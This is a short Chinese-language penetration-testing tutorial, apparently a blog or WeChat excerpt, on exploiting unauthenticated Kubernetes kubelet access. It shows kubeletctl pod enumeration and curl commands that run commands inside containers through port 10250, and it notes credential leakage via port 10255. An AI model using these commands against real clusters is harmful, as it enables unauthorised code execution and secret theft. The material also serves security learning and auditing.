 ### 2\. kubelet未授权访问

每一个 **Worker节点** 都有一个kubelet服务，kubelet监听了`10250`（kubelet
API），`10248`，`10255`（readonly API）等端口。

正常情况下访问是没有权限的：

https://192.168.41.23:10250/pods

![](https://gitee.com/fuli009/images/raw/master/public/20220314221358.png)

`authentication.anonymous.enabled`配置不当设置为 true 时，允许匿名访问 10250 端口：

![](https://gitee.com/fuli009/images/raw/master/public/20220314221359.png)

访问存在如下回显，就是存在未授权访问：

![](https://gitee.com/fuli009/images/raw/master/public/20220314221400.png)

 **利用** ：

https://github.com/cyberark/kubeletctl/releases

下载kubeletctl工具，执行命令：

    
    
    ./kubeletctl pods -s 192.168.41.23 --port 10250

![](https://gitee.com/fuli009/images/raw/master/public/20220314221401.png)

可以看到pod，namespace，containers。

执行pod里容器的命令：

    
    
    curl -k https://nodeip:10250/run/$namespace/$POD/$CONTAINERS -d "cmd=ls" --insecure  
      
    curl -k https://192.168.41.23:10250/run/default/nginx-f89759699-tct4p/nginx -d "cmd=ls" --insecure

![](https://gitee.com/fuli009/images/raw/master/public/20220314221402.png)

如果是10255端口的未授权而非10250，它是 **只读端口**
，无法直接利用在容器中执行命令，但是可以获取环境变量ENV、主进程CMDLINE等信息，里面可能包含密码和秘钥等敏感信息。

### 参考链接

[https://mp.weixin.qq.com/s/T2QGLlKwjaUByDtGFL94PQ](https://mp.weixin.qq.com/s?__biz=MzIxNTIzMzM1Ng==&mid=2651104364&idx=1&sn=a22dac0da090751552d46a8b622bfbbc&scene=21#wechat_redirect)

https://blog.csdn.net/w1590191166/article/details/122028001?spm=1001.2014.3001.5501

  

预览时标签不可点

收录于话题 #

 个
